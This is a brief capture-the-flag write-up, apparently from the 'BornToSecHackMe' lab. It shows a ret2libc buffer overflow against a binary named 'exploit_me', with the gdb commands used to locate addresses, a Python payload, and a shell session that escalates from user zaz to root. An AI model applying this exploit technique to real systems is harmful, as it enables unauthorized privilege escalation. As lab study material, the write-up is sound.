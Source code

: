 # BONUS 01

During writeup_01 we use BufferOverflow + shellcode on `exploit_me` because stack was exec.
But if stack doesnt exec this exploit would not work. So we can use another exploit : `RET2LIBC`

Size for overflow stay the same : `140`
We have to find `system() address`
                 `return address` (exit here for cleanliness)
                 `/bin/sh stirng address`


 *[ buffer overflow ] [system() Address ] [ retour Address ] [ "/bin/sh" Address ]*

`export EXPLOIT="/bin/sh"`

in gdb : 

`p system` = **0xb7e6b060**

`p exit` = **0xb7e5ebe0**

`find &system,+9999999,"/bin/sh"` = **0xb7f8cc58**


Our playload is : 

`$(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')`

```
zaz@BornToSecHackMe:~$ whoami
zaz
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�������X���
# whoami
root
```

We are root ! 
